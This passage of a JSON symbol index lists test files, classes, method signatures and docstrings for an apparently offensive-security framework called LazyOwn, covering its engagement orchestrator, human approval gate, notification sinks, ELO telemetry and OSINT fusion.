temp sessions dir.", "kind": "function", "line": 47, "name": "temp_sessions", "signature": "def temp_sessions(tmp_path, monkeypatch)"}, {"kind": "class", "line": 86, "name": "TestEngagementNarrator", "signature": "class TestEngagementNarrator"}, {"kind": "class", "line": 139, "name": "TestNotificationBroadcaster", "signature": "class TestNotificationBroadcaster"}, {"kind": "class", "line": 191, "name": "TestShellObtainedPublisher", "signature": "class TestShellObtainedPublisher"}, {"kind": "class", "line": 241, "name": "TestIsValidTarget", "signature": "class TestIsValidTarget"}, {"doc": "Reload lazyown_policy so its module-level paths see the temp dir.", "kind": "function", "line": 270, "name": "policy_module", "signature": "def policy_module(temp_sessions, monkeypatch)"}, {"doc": "Test double satisfying IApprovalSink.", "kind": "class", "line": 280, "name": "_RecordingSink", "signature": "class _RecordingSink"}, {"kind": "class", "line": 294, "name": "TestApprovalGate", "signature": "class TestApprovalGate"}, {"kind": "class", "line": 385, "name": "TestFileApprovalSink", "signature": "class TestFileApprovalSink"}, {"kind": "class", "line": 431, "name": "TestStdinApprovalSink", "signature": "class TestStdinApprovalSink"}, {"kind": "class", "line": 451, "name": "TestStaticFallbackResolver", "signature": "class TestStaticFallbackResolver"}, {"doc": "ICommandRunner double driven by an in-memory map of cmd -> output.\n\n    Outputs default to '' which counts as a failure under the heuristic,\n    forcing the fallback path. Keys can be substrings matched against the\n    composed command (so 'lazynmap' matches 'assign rhost ...\nlazynmap').\n    ", "kind": "class", "line": 473, "name": "_ScriptedRunner", "signature": "class _ScriptedRunner"}, {"kind": "class", "line": 497, "name": "_NoOpGate", "signature": "class _NoOpGate"}, {"kind": "class", "line": 508, "name": "_RejectingGate", "signature": "class _RejectingGate"}, {"kind": "class", "line": 528, "name": "TestEngageOrchestrator", "signature": "class TestEngageOrchestrator"}, {"kind": "class", "line": 632, "name": "TestMcpEntryPoints", "signature": "class TestMcpEntryPoints"}, {"kind": "class", "line": 676, "name": "TestWiring", "signature": "class TestWiring"}, {"kind": "method", "line": 87, "name": "test_narrate_writes_log_and_audit", "signature": "def test_narrate_writes_log_and_audit(self, temp_sessions)"}, {"kind": "method", "line": 112, "name": "test_stream_sink_appends_to_autonomous_events", "signature": "def test_stream_sink_appends_to_autonomous_events(self, temp_sessions)"}, {"kind": "method", "line": 123, "name": "test_render_line_format_is_stable", "signature": "def test_render_line_format_is_stable(self)"}, {"kind": "method", "line": 140, "name": "test_fans_out_to_every_sink", "signature": "def test_fans_out_to_every_sink(self, temp_sessions)"}, {"kind": "method", "line": 162, "name": "test_failing_sink_does_not_break_broadcaster", "signature": "def test_failing_sink_does_not_break_broadcaster(self, temp_sessions)"}, {"kind": "method", "line": 192, "name": "test_first_call_emits_event", "signature": "def test_first_call_emits_event(self, temp_sessions)"}, {"kind": "method", "line": 209, "name": "test_repeat_call_is_idempotent", "signature": "def test_repeat_call_is_idempotent(self, temp_sessions)"}, {"kind": "method", "line": 217, "name": "test_invalid_client_id_returns_none", "signature": "def test_invalid_client_id_returns_none(self, temp_sessions)"}, {"kind": "method", "line": 223, "name": "test_client_id_is_sanitised", "signature": "def test_client_id_is_sanitised(self, temp_sessions)"}, {"kind": "method", "line": 242, "name": "test_accepts_ipv4", "signature": "def test_accepts_ipv4(self)"}, {"kind": "method", "line": 248, "name": "test_accepts_hostname", "signature": "def test_accepts_hostname(self)"}, {"kind": "method", "line": 254, "name": "test_rejects_garbage", "signature": "def test_rejects_garbage(self)"}, {"kind": "method", "line": 283, "name": "__init__", "signature": "def __init__(self)"}, {"kind": "method", "line": 287, "name": "announce", "signature": "def announce(self, request)"}, {"kind": "method", "line": 290, "name": "resolution_for", "signature": "def resolution_for(self, approval_id)"}, {"kind": "method", "line": 295, "name": "test_auto_approve_true_returns_approved_for_gated_phase", "signature": "def test_auto_approve_true_returns_approved_for_gated_phase(self, policy_module, temp_sessions)"}, {"kind": "method", "line": 310, "name": "test_non_gated_phase_bypasses_sink", "signature": "def test_non_gated_phase_bypasses_sink(self, policy_module, temp_sessions)"}, {"kind": "method", "line": 326, "name": "test_gated_phase_with_auto_approve_false_polls_sink", "signature": "def test_gated_phase_with_auto_approve_false_polls_sink(self, policy_module, temp_sessions)"}, {"kind": "method", "line": 356, "name": "test_gated_phase_times_out_to_denied", "signature": "def test_gated_phase_times_out_to_denied(self, policy_module, temp_sessions)"}, {"kind": "method", "line": 375, "name": "test_invalid_payload_defaults_to_auto_approve_true", "signature": "def test_invalid_payload_defaults_to_auto_approve_true(self, policy_module, temp_sessions)"}, {"kind": "method", "line": 386, "name": "test_announce_writes_pending_record", "signature": "def test_announce_writes_pending_record(self, policy_module, temp_sessions)"}, {"kind": "method", "line": 402, "name": "test_resolution_returns_latest_non_pending", "signature": "def test_resolution_returns_latest_non_pending(self, policy_module, temp_sessions)"}, {"kind": "method", "line": 432, "name": "test_no_tty_returns_none", "signature": "def test_no_tty_returns_none(self, policy_module)"}, {"kind": "method", "line": 452, "name": "test_returns_alternatives_in_order", "signature": "def test_returns_alternatives_in_order(self)"}, {"kind": "method", "line": 462, "name": "test_unknown_primary_returns_none", "signature": "def test_unknown_primary_returns_none(self)"}, {"kind": "method", "line": 481, "name": "__init__", "signature": "def __init__(self, scripted)"}, {"kind": "method", "line": 485, "name": "run", "signature": "def run(self, command, timeout)"}, {"kind": "method", "line": 493, "name": "name", "signature": "def name(self)"}, {"kind": "method", "line": 498, "name": "request", "signature": "def request(self, target, phase, command, reason)"}, {"kind": "method", "line": 509, "name": "__init__", "signature": "def __init__(self, rejected_phase)"}, {"kind": "method", "line": 512, "name": "request", "signature": "def request(self, target, phase, command, reason)"}, {"kind": "method", "line": 529, "name": "test_rejects_invalid_target", "signature": "def test_rejects_invalid_target(self, temp_sessions, policy_module)"}, {"kind": "method", "line": 535, "name": "test_runs_full_plan_on_success", "signature": "def test_runs_full_plan_on_success(self, temp_sessions, policy_module)"}, {"kind": "method", "line": 559, "name": "test_switches_tool_on_failure", "signature": "def test_switches_tool_on_failure(self, temp_sessions, policy_module)"}, {"kind": "method", "line": 585, "name": "test_denied_step_is_skipped", "signature": "def test_denied_step_is_skipped(self, temp_sessions, policy_module)"}, {"kind": "method", "line": 609, "name": "test_shell_indicator_stops_loop", "signature": "def test_shell_indicator_stops_loop(self, temp_sessions, policy_module)"}, {"kind": "method", "line": 633, "name": "test_engage_target_rejects_invalid", "signature": "def test_engage_target_rejects_invalid(self, temp_sessions, policy_module)"}, {"kind": "method", "line": 639, "name": "test_engage_target_returns_engagement_id", "signature": "def test_engage_target_returns_engagement_id(self, temp_sessions, policy_module)"}, {"kind": "method", "line": 648, "name": "test_engage_status_returns_pending_approvals_structure", "signature": "def test_engage_status_returns_pending_approvals_structure(self, temp_sessions, policy_module)"}, {"kind": "method", "line": 656, "name": "test_engage_approve_rejects_bad_decision", "signature": "def test_engage_approve_rejects_bad_decision(self, temp_sessions, policy_module)"}, {"kind": "method", "line": 662, "name": "test_engage_approve_accepts_valid_decision", "signature": "def test_engage_approve_accepts_valid_decision(self, temp_sessions, policy_module)"}, {"kind": "method", "line": 677, "name": "test_do_engage_method_exists_in_lazyown", "signature": "def test_do_engage_method_exists_in_lazyown(self)"}, {"kind": "method", "line": 684, "name": "test_lazyc2_has_engagement_hook_call", "signature": "def test_lazyc2_has_engagement_hook_call(self)"}, {"kind": "method", "line": 688, "name": "test_mcp_exposes_four_engage_tools", "signature": "def test_mcp_exposes_four_engage_tools(self)"}, {"kind": "method", "line": 698, "name": "test_daemon_has_engage_subcommand", "signature": "def test_daemon_has_engage_subcommand(self)"}, {"kind": "method", "line": 703, "name": "test_payload_json_auto_approve_key_is_bool_when_present", "signature": "def test_payload_json_auto_approve_key_is_bool_when_present(self)"}, {"kind": "method", "line": 708, "name": "test_approval_gate_defaults_to_true_when_key_missing", "signature": "def test_approval_gate_defaults_to_true_when_key_missing(self, tmp_path)"}, {"kind": "method", "line": 726, "name": "test_engagement_hooks_module_exposes_public_surface", "signature": "def test_engagement_hooks_module_exposes_public_surface(self)"}, {"kind": "method", "line": 740, "name": "test_policy_module_exposes_approval_surface", "signature": "def test_policy_module_exposes_approval_surface(self)"}, {"kind": "class", "line": 145, "name": "_CountingSink", "signature": "class _CountingSink(INotificationSink)"}, {"kind": "class", "line": 165, "name": "_BoomSink", "signature": "class _BoomSink(INotificationSink)"}, {"kind": "class", "line": 173, "name": "_GoodSink", "signature": "class _GoodSink(INotificationSink)"}, {"kind": "function", "line": 330, "name": "_injected_sleep", "signature": "def _injected_sleep(_seconds)"}, {"kind": "method", "line": 146, "name": "__init__", "signature": "def __init__(self, name)"}, {"kind": "method", "line": 150, "name": "name", "signature": "def name(self)"}, {"kind": "method", "line": 153, "name": "deliver", "signature": "def deliver(self, event)"}, {"kind": "method", "line": 167, "name": "name", "signature": "def name(self)"}, {"kind": "method", "line": 170, "name": "deliver", "signature": "def deliver(self, event)"}, {"kind": "method", "line": 175, "name": "name", "signature": "def name(self)"}, {"kind": "method", "line": 178, "name": "deliver", "signature": "def deliver(self, event)"}]}, {"doc": "Tests for modules/engage_summary.py.  Covers marker extraction, per-tool detail parsing, held-scan ports, text/markdown rendering and report persistence. All fixtures are synthetic; no shell or network involved.", "id": "tests/test_engage_summary.py", "kind": "module", "label": "test_engage_summary.py", "language": "py", "sha256": "49a48f26c0e57813", "symbol_count": 10, "symbols": [{"doc": "Build one step result dict for rendering tests.", "kind": "function", "line": 45, "name": "_step", "signature": "def _step(command)"}, {"doc": "Only [+] log lines survive; suggestion panels vanish.", "kind": "function", "line": 54, "name": "test_marker_lines_drop_panels_and_bars", "signature": "def test_marker_lines_drop_panels_and_bars()"}, {"doc": "Ping detail surfaces TTL, liveness and os_id.", "kind": "function", "line": 62, "name": "test_detail_for_ping_extracts_os", "signature": "def test_detail_for_ping_extracts_os()"}, {"doc": "Populate detail surfaces services and change state.", "kind": "function", "line": 69, "name": "test_detail_for_populate_extracts_services", "signature": "def test_detail_for_populate_extracts_services()"}, {"doc": "A Not Found search reports no candidates, never invented ones.", "kind": "function", "line": 76, "name": "test_detail_for_empty_search_is_honest", "signature": "def test_detail_for_empty_search_is_honest()"}, {"doc": "Held scan XMLs yield open ports and skip closed ones.", "kind": "function", "line": 82, "name": "test_held_scan_ports_reads_xml", "signature": "def test_held_scan_ports_reads_xml(tmp_path)"}, {"doc": "Skipped scans still report the held ports in the summary.", "kind": "function", "line": 91, "name": "test_render_text_shows_skip_with_held_ports", "signature": "def test_render_text_shows_skip_with_held_ports(tmp_path)"}, {"doc": "Evidence vault beats the truncated tail when a hash exists.", "kind": "function", "line": 104, "name": "test_full_output_prefers_evidence", "signature": "def test_full_output_prefers_evidence(tmp_path)"}, {"doc": "The engagement report lands under sessions/engagements/.", "kind": "function", "line": 114, "name": "test_write_report_persists_markdown", "signature": "def test_write_report_persists_markdown(tmp_path)"}, {"doc": "Markdown carries evidence hashes and next actions.", "kind": "function", "line": 125, "name": "test_render_markdown_lists_evidence_and_next", "signature": "def test_render_markdown_lists_evidence_and_next()"}]}, {"doc": "tests/test_engagement_and_ping.py ================================== Tests for: - cli/engagement_hooks.py  (curiosity engine + VRI scheduler) - do_ping os_id fix        (Linux=1, Windows=2, persisted via _apply_assign) - do_recommend_next        (command-index layer, no graph nodes)  All tests are isolated: no real filesystem writes outside tmp_path, no real network calls, no real LazyOwn shell instantiation.", "id": "tests/test_engagement_and_ping.py", "kind": "module", "label": "test_engagement_and_ping.py", "language": "py", "sha256": "acd5464ec37d89d5", "symbol_count": 40, "symbols": [{"doc": "Return ``(fragment, module_source)`` for a ``do_<name>`` command.\n\nCommands may live in ``lazyown.py`` or any migrated module under\n``cli/commands/``, so the lookup scans every CLI source in 1st party\norder.", "kind": "function", "line": 30, "name": "_command_location", "signature": "def _command_location(name)"}, {"kind": "class", "line": 58, "name": "TestEngagementState", "signature": "class TestEngagementState"}, {"kind": "class", "line": 105, "name": "TestVRIScheduler", "signature": "class TestVRIScheduler"}, {"kind": "class", "line": 177, "name": "TestCuriosityEngine", "signature": "class TestCuriosityEngine"}, {"doc": "Verify that TTL→os_id mapping and persistence are correct.", "kind": "class", "line": 283, "name": "TestPingOsId", "signature": "class TestPingOsId"}, {"doc": "Verify the command-index layer in do_recommend_next works without graph.", "kind": "class", "line": 351, "name": "TestRecommendNextCommandIndex", "signature": "class TestRecommendNextCommandIndex"}, {"kind": "method", "line": 59, "name": "test_load_fresh_state_has_zero_commands", "signature": "def test_load_fresh_state_has_zero_commands(self, tmp_path)"}, {"kind": "method", "line": 74, "name": "test_save_and_reload_state", "signature": "def test_save_and_reload_state(self, tmp_path)"}, {"kind": "method", "line": 90, "name": "test_atomic_write_leaves_no_tmp_file", "signature": "def test_atomic_write_leaves_no_tmp_file(self, tmp_path)"}, {"kind": "method", "line": 106, "name": "test_next_threshold_always_positive", "signature": "def test_next_threshold_always_positive(self)"}, {"kind": "method", "line": 113, "name": "test_next_threshold_mean_near_target", "signature": "def test_next_threshold_mean_near_target(self)"}, {"kind": "method", "line": 120, "name": "test_threshold_is_variable_not_constant", "signature": "def test_threshold_is_variable_not_constant(self)"}, {"kind": "method", "line": 126, "name": "test_vri_fires_when_threshold_reached", "signature": "def test_vri_fires_when_threshold_reached(self, tmp_path, capsys)"}, {"kind": "method", "line": 152, "name": "test_vri_does_not_fire_before_threshold", "signature": "def test_vri_does_not_fire_before_threshold(self, tmp_path, capsys)"}, {"kind": "method", "line": 178, "name": "_make_state", "signature": "def _make_state(self, seen)"}, {"kind": "method", "line": 186, "name": "_minimal_index", "signature": "def _minimal_index(self, phase_cmds)"}, {"kind": "method", "line": 192, "name": "test_curiosity_shows_undiscovered_command", "signature": "def test_curiosity_shows_undiscovered_command(self, capsys)"}, {"kind": "method", "line": 202, "name": "test_curiosity_does_not_repeat_in_session", "signature": "def test_curiosity_does_not_repeat_in_session(self, capsys)"}, {"kind": "method", "line": 219, "name": "test_curiosity_silent_when_all_discovered", "signature": "def test_curiosity_silent_when_all_discovered(self, capsys)"}, {"kind": "method", "line": 229, "name": "test_curiosity_silent_when_disabled", "signature": "def test_curiosity_silent_when_disabled(self, capsys)"}, {"kind": "method", "line": 245, "name": "test_curiosity_silent_for_unknown_phase", "signature": "def test_curiosity_silent_for_unknown_phase(self, capsys)"}, {"kind": "method", "line": 254, "name": "test_commands_seen_accumulates_across_calls", "signature": "def test_commands_seen_accumulates_across_calls(self, tmp_path)"}, {"kind": "method", "line": 286, "name": "_ping_stdout", "signature": "def _ping_stdout(self, ttl)"}, {"kind": "method", "line": 289, "name": "_make_params", "signature": "def _make_params(self)"}, {"kind": "method", "line": 292, "name": "_extract_os_id_from_json", "signature": "def _extract_os_id_from_json(self, data)"}, {"kind": "method", "line": 295, "name": "test_ttl_64_maps_to_os_id_1_linux", "signature": "def test_ttl_64_maps_to_os_id_1_linux(self)"}, {"kind": "method", "line": 302, "name": "test_ttl_128_maps_to_os_id_2_windows", "signature": "def test_ttl_128_maps_to_os_id_2_windows(self)"}, {"kind": "method", "line": 309, "name": "test_ttl_127_maps_to_os_id_2_windows", "signature": "def test_ttl_127_maps_to_os_id_2_windows(self)"}, {"kind": "method", "line": 316, "name": "test_ttl_63_maps_to_os_id_1_linux", "signature": "def test_ttl_63_maps_to_os_id_1_linux(self)"}, {"kind": "method", "line": 323, "name": "test_ttl_255_maps_to_unknown", "signature": "def test_ttl_255_maps_to_unknown(self)"}, {"doc": "sessions/os.json schema: id, os, ttl, state.", "kind": "method", "line": 330, "name": "test_ping_os_json_contract", "signature": "def test_ping_os_json_contract(self)"}, {"doc": "do_ping must call _apply_assign so os_id survives restart.", "kind": "method", "line": 338, "name": "test_ping_persists_via_apply_assign", "signature": "def test_ping_persists_via_apply_assign(self)"}, {"kind": "method", "line": 354, "name": "_build_index", "signature": "def _build_index(self, tmp_path, phase, n_cmds)"}, {"kind": "method", "line": 366, "name": "_build_csv", "signature": "def _build_csv(self, tmp_path, run_cmds)"}, {"kind": "method", "line": 411, "name": "test_shows_unrun_commands", "signature": "def test_shows_unrun_commands(self, tmp_path, capsys)"}, {"kind": "method", "line": 436, "name": "test_shows_nothing_when_all_run", "signature": "def test_shows_nothing_when_all_run(self, tmp_path)"}, {"doc": "Command-index layer must never show code graph nodes.", "kind": "method", "line": 456, "name": "test_no_graph_nodes_in_output", "signature": "def test_no_graph_nodes_in_output(self, tmp_path, capsys)"}, {"doc": "The NameError bug: 'advisor' must not be used before it's defined.", "kind": "method", "line": 470, "name": "test_no_advisor_reference_before_definition", "signature": "def test_no_advisor_reference_before_definition(self)"}, {"doc": "Rule from rich must be imported if used in do_recommend_next.", "kind": "method", "line": 509, "name": "test_rule_not_used_without_import", "signature": "def test_rule_not_used_without_import(self)"}, {"doc": "When no data: must show a useful fallback, not crash.", "kind": "method", "line": 517, "name": "test_fallback_message_present", "signature": "def test_fallback_message_present(self)"}]}, {"doc": "Tests for the command-recording gate of cli/engagement_hooks.py.  The engagement telemetry must count only real LazyOwn commands. Before this gate every first token of an input line was recorded, so menu selections (``1``), quoted script paths, mistyped emails, host names and free-form natural language leaked into ``commands_seen`` and inflated the ELO ledger.  Two layers enforce the contract:  * A module-level syntactic filter (:func:`_is_recordable_command`) that rejects anything that is not shaped like a command name. It deliberately does not consult the static command index, which can lag the live shell. * An authoritative roster purge (:func:`heal_commands_seen` / :func:`_sanitize_seen` with a ``known`` set) driven at shell startup by the live ``get_all_commands()`` registry, which removes real-looking but invalid tokens such as ``do_against``.  Every module-level path is redirected to a tmp directory so the real ``sessions/`` state file is never touched.", "id": "tests/test_engagement_command_gate.py", "kind": "module", "label": "test_engagement_command_gate.py", "language": "py", "sha256": "b6c7a2fd21d10509", "symbol_count": 18, "symbols": [{"doc": "Point engagement_hooks state at tmp_path but keep the real index.", "kind": "function", "line": 34, "name": "_redirect_paths", "signature": "def _redirect_paths(tmp_path)"}, {"kind": "function", "line": 56, "name": "_restore_paths", "signature": "def _restore_paths(saved)"}, {"doc": "The syntactic gate that rejects input-line noise.", "kind": "class", "line": 68, "name": "TestIsRecordableCommand", "signature": "class TestIsRecordableCommand"}, {"doc": "A non-command-shaped token must not touch commands_seen or the ELO.", "kind": "class", "line": 106, "name": "TestHookRejectsNoise", "signature": "class TestHookRejectsNoise"}, {"doc": "Historical pollution is healed on load and against a roster.", "kind": "class", "line": 141, "name": "TestSanitizeSeen", "signature": "class TestSanitizeSeen"}, {"doc": "The startup purge removes non-command entries against the live roster.", "kind": "class", "line": 187, "name": "TestHealCommandsSeen", "signature": "class TestHealCommandsSeen"}, {"kind": "method", "line": 72, "name": "test_accepts_command_shaped_tokens", "signature": "def test_accepts_command_shaped_tokens(self, cmd)"}, {"kind": "method", "line": 81, "name": "test_rejects_syntactic_garbage", "signature": "def test_rejects_syntactic_garbage(self, cmd)"}, {"kind": "method", "line": 86, "name": "test_quoted_path_rejected", "signature": "def test_quoted_path_rejected(self)"}, {"kind": "method", "line": 91, "name": "test_do_prefixed_input_is_accepted", "signature": "def test_do_prefixed_input_is_accepted(self)"}, {"kind": "method", "line": 96, "name": "test_normalize_is_idempotent", "signature": "def test_normalize_is_idempotent(self)"}, {"kind": "method", "line": 109, "name": "test_garbage_does_not_enter_commands_seen", "signature": "def test_garbage_does_not_enter_commands_seen(self, tmp_path)"}, {"kind": "method", "line": 123, "name": "test_real_command_recorded_between_garbage", "signature": "def test_real_command_recorded_between_garbage(self, tmp_path)"}, {"kind": "method", "line": 144, "name": "test_syntactic_only_drops_ugly_garbage", "signature": "def test_syntactic_only_drops_ugly_garbage(self)"}, {"kind": "method", "line": 158, "name": "test_roster_drops_valid_but_unknown_tokens", "signature": "def test_roster_drops_valid_but_unknown_tokens(self)"}, {"kind": "method", "line": 165, "name": "test_load_state_heals_polluted_file", "signature": "def test_load_state_heals_polluted_file(self, tmp_path)"}, {"kind": "method", "line": 190, "name": "test_purges_and_persists", "signature": "def test_purges_and_persists(self, tmp_path)"}, {"kind": "method", "line": 207, "name": "test_idempotent_on_clean_state", "signature": "def test_idempotent_on_clean_state(self, tmp_path)"}]}, {"doc": "Tests for the ELO + karma + methodology extensions of cli/engagement_hooks.py.  Covers: * get_karma_name thresholds (mirror of lazyc2.py). * _award_elo additive structure (base, high-value, phase, first-time, new phase). * _sync_user_elo dual-write to users.json (atomic, schema-preserving). * _persist_notification atomic append + ring cap. * Methodology rewards: _render_methodology_{task,objective,note} (data-driven, return False when artefact missing, return True when artefact has entries). * _check_karma_up fires on threshold cross and is idempotent. * render_engagement_hook integration: ELO accumulates, dashboard notification persisted on VRI reward, karma_name reflected in state snapshot.  All tests redirect every module-level Path to a per-test tmp directory so the real ``sessions/``, ``payload.json`` and ``users.json`` are never touched.", "id": "tests/test_engagement_elo_and_methodology.py", "kind": "module", "label": "test_engagement_elo_and_methodology.py", "language": "py", "sha256": "f459978edbb2e8b8", "symbol_count": 43, "symbols": [{"doc": "Stub the CLI operator lookup so tests do not depend on host login state.\n\n``_sync_user_elo`` prefers the logged-in CLI operator when one exists,\nwhich would route ELO writes at the real ``users.json`` on developer\nmachines with an active ``sessions/cli_session.json``. These tests\nexercise the ``payload.json`` ``c2_user`` fallback, so the lookup must\nbe deterministic regardless of environment.", "kind": "function", "line": 31, "name": "_no_cli_operator", "signature": "def _no_cli_operator(monkeypatch)"}, {"doc": "Point every engagement_hooks path at tmp_path; return mapping for restore.", "kind": "function", "line": 48, "name": "_redirect_paths", "signature": "def _redirect_paths(tmp_path)"}, {"kind": "function", "line": 76, "name": "_restore_paths", "signature": "def _restore_paths(saved)"}, {"doc": "Verify karma bracket boundaries mirror lazyc2.get_karma_name.", "kind": "class", "line": 88, "name": "TestGetKarmaName", "signature": "class TestGetKarmaName"}, {"kind": "class", "line": 119, "name": "TestAwardElo", "signature": "class TestAwardElo"}, {"kind": "class", "line": 179, "name": "TestSyncUserElo", "signature": "class TestSyncUserElo"}, {"kind": "class", "line": 252, "name": "TestPersistNotification", "signature": "class TestPersistNotification"}, {"kind": "class", "line": 313, "name": "TestMethodologyRewards", "signature": "class TestMethodologyRewards"}, {"kind": "class", "line": 425, "name": "TestKarmaUp", "signature": "class TestKarmaUp"}, {"kind": "class", "line": 463, "name": "TestRenderEngagementHookIntegration", "signature": "class TestRenderEngagementHookIntegration"}, {"kind": "class", "line": 524, "name": "TestStateSnapshot", "signature": "class TestStateSnapshot"}, {"kind": "method", "line": 110, "name": "test_thresholds", "signature": "def test_thresholds(self, elo, expected)"}, {"kind": "method", "line": 120, "name": "test_base_only_for_unknown_command_and_phase", "signature": "def test_base_only_for_unknown_command_and_phase(self)"}, {"kind": "method", "line": 125, "name": "test_high_value_bonus_applied", "signature": "def test_high_value_bonus_applied(self)"}, {"kind": "method", "line": 131, "name": "test_phase_bonus_applied", "signature": "def test_phase_bonus_applied(self)"}, {"kind": "method", "line": 137, "name": "test_first_time_bonus", "signature": "def test_first_time_bonus(self)"}, {"kind": "method", "line": 143, "name": "test_new_phase_bonus", "signature": "def test_new_phase_bonus(self)"}, {"kind": "method", "line": 149, "name": "test_all_bonuses_stack", "signature": "def test_all_bonuses_stack(self)"}, {"kind": "method", "line": 169, "name": "test_do_prefix_is_stripped", "signature": "def test_do_prefix_is_stripped(self)"}, {"kind": "method", "line": 180, "name": "test_patches_matching_username", "signature": "def test_patches_matching_username(self, tmp_path)"}, {"kind": "method", "line": 199, "name": "test_silent_when_payload_missing", "signature": "def test_silent_when_payload_missing(self, tmp_path)"}, {"kind": "method", "line": 211, "name": "test_silent_when_username_not_found", "signature": "def test_silent_when_username_not_found(self, tmp_path)"}, {"kind": "method", "line": 224, "name": "test_ignores_non_positive_delta", "signature": "def test_ignores_non_positive_delta(self, tmp_path)"}, {"kind": "method", "line": 234, "name": "test_atomic_rename_leaves_no_tmp", "signature": "def test_atomic_rename_leaves_no_tmp(self, tmp_path)"}, {"kind": "method", "line": 253, "name": "test_creates_file_on_first_call", "signature": "def test_creates_file_on_first_call(self, tmp_path)"}, {"kind": "method", "line": 264, "name": "test_appends_to_existing_file", "signature": "def test_appends_to_existing_file(self, tmp_path)"}, {"kind": "method", "line": 277, "name": "test_ring_cap_drops_oldest", "signature": "def test_ring_cap_drops_oldest(self, tmp_path)"}, {"kind": "method", "line": 297, "name": "test_recovers_from_corrupt_file", "signature": "def test_recovers_from_corrupt_file(self, tmp_path)"}, {"kind": "method", "line": 314, "name": "test_task_reward_silent_when_no_file", "signature": "def test_task_reward_silent_when_no_file(self, tmp_path, capsys)"}, {"kind": "method", "line": 324, "name": "test_task_reward_renders_pending_match", "signature": "def test_task_reward_renders_pending_match(self, tmp_path, capsys)"}, {"kind": "method", "line": 344, "name": "test_task_reward_silent_when_all_done", "signature": "def test_task_reward_silent_when_all_done(self, tmp_path, capsys)"}, {"kind": "method", "line": 361, "name": "test_objective_reward_uses_phase_to_next_cmd", "signature": "def test_objective_reward_uses_phase_to_next_cmd(self, tmp_path, capsys)"}, {"kind": "method", "line": 379, "name": "test_objective_reward_silent_when_no_pending", "signature": "def test_objective_reward_silent_when_no_pending(self, tmp_path, capsys)"}, {"kind": "method", "line": 391, "name": "test_note_reward_renders_latest", "signature": "def test_note_reward_renders_latest(self, tmp_path, capsys)"}, {"kind": "method", "line": 412, "name": "test_note_reward_silent_when_empty", "signature": "def test_note_reward_silent_when_empty(self, tmp_path, capsys)"}, {"kind": "method", "line": 426, "name": "test_fires_on_threshold_crossing", "signature": "def test_fires_on_threshold_crossing(self, tmp_path, capsys)"}, {"kind": "method", "line": 440, "name": "test_idempotent_when_no_threshold_cross", "signature": "def test_idempotent_when_no_threshold_cross(self, capsys)"}, {"kind": "method", "line": 447, "name": "test_persists_notification", "signature": "def test_persists_notification(self, tmp_path)"}, {"kind": "method", "line": 464, "name": "test_elo_accumulates_across_commands", "signature": "def test_elo_accumulates_across_commands(self, tmp_path)"}, {"kind": "method", "line": 479, "name": "test_first_time_bonus_only_once_per_command", "signature": "def test_first_time_bonus_only_once_per_command(self, tmp_path)"}, {"kind": "method", "line": 493, "name": "test_users_json_syncd_when_payload_present", "signature": "def test_users_json_syncd_when_payload_present(self, tmp_path)"}, {"kind": "method", "line": 508, "name": "test_disabled_flag_is_noop", "signature": "def test_disabled_flag_is_noop(self, tmp_path, capsys)"}, {"kind": "method", "line": 525, "name": "test_returns_required_keys", "signature": "def test_returns_required_keys(self, tmp_path)"}]}, {"doc": "Estorides OSINT fusion: load, merge, surface readers.", "id": "tests/test_estorides_fusion.py", "kind": "module", "label": "test_estorides_fusion.py", "language": "py", "sha256": "3347d5fa80eac26c", "symbol_count": 12, "symbols": [{"doc": "Import cli/surface_graph.py by path (no cmd2 package import).", "kind": "function", "line": 27, "name": "_load_surface_graph", "signature": "def _load_surface_graph()"}, {"doc": "One existing host node as built by the graph builders.", "kind": "function", "line": 37, "name": "_base_nodes", "signature": "def _base_nodes()"}, {"doc": "The estorides --export lazyown file loads verbatim.", "kind": "function", "line": 45, "name": "test_load_lazyown_vocabulary", "signature": "def test_load_lazyown_vocabulary(tmp_path)"}, {"doc": "Raw export_json documents map to LazyOwn kinds.", "kind": "function", "line": 58, "name": "test_load_raw_export_translates_types", "signature": "def test_load_raw_export_translates_types(tmp_path)"}, {"doc": "Same IP fuses records instead of duplicating nodes.", "kind": "function", "line": 75, "name": "test_merge_fuses_matching_ip", "signature": "def test_merge_fuses_matching_ip()"}, {"doc": "Unknown entities arrive tagged until the cap.", "kind": "function", "line": 91, "name": "test_merge_adds_new_entities_capped", "signature": "def test_merge_adds_new_entities_capped()"}, {"doc": "Estorides relations re-anchor on fused ids, never on ghosts.", "kind": "function", "line": 107, "name": "test_merge_edges_reanchor", "signature": "def test_merge_edges_reanchor(tmp_path)"}, {"doc": "No export anywhere resolves to None instead of raising.", "kind": "function", "line": 127, "name": "test_find_export_prefers_lazyown", "signature": "def test_find_export_prefers_lazyown(tmp_path)"}, {"doc": "Only affirmative answers launch scans.", "kind": "function", "line": 132, "name": "test_parse_confirm", "signature": "def test_parse_confirm()"}, {"doc": "hostsdiscovery + hosts_*_discovery files all contribute.", "kind": "function", "line": 139, "name": "test_discovery_targets_reads_all_files", "signature": "def test_discovery_targets_reads_all_files(tmp_path)"}, {"doc": "Unknown estorides IPs append, known ones never duplicate.", "kind": "function", "line": 146, "name": "test_write_world_model_hosts", "signature": "def test_write_world_model_hosts(tmp_path)"}, {"doc": "CSV scans, nmap normal output and discovery globs all parse.", "kind": "function", "line": 158, "name": "test_surface_readers_cover_sessions_formats", "signature": "def test_surface_readers_cover_sessions_formats(tmp_path)"}]}, {"doc": "Tests for evidence-backed inline hints.  Covers the three collaborating pieces that turn the bare name-only hint into advice the operator can trust:  - ``cli.reactive_hints.confidence_from_score`` — score to display confidence. - ``cli.reactive_hints.build_evidence_hints`` / ``render_evidence_hints`` — shaping and printing verb + confidence + reason + provenance. - ``cli.recommendation_signals.recommend_with_evidence`` — the reuse-friendly engine convenience. - ``cli.tips_engine.TipsEngine`` wiring — evidence path with graceful fallback to the static bare-name hints.", "id": "tests/test_evidence_hints.py", "kind": "module", "label": "test_evidence_hints.py", "language": "py", "sha256": "ca814d185cd2a001", "symbol_count": 35, "symbols": [{"doc": "Build a duck-typed Recommendation for the pure hint builders.", "kind": "function", "line": 33, "name": "_rec", "signature": "def _rec(action, score, reasons, sources, command_preview)"}, {"doc": "Stub recommendation engine recording the context it was called with.", "kind": "class", "line": 50, "name": "_FakeEngine", "signature": "class _FakeEngine"}, {"kind": "class", "line": 62, "name": "TestConfidenceFromScore", "signature": "class TestConfidenceFromScore"}, {"kind": "class", "line": 86, "name": "TestBuildEvidenceHints", "signature": "class TestBuildEvidenceHints"}, {"kind": "class", "line": 131, "name": "TestRenderEvidenceHints", "signature": "class TestRenderEvidenceHints"}, {"kind": "class", "line": 144, "name": 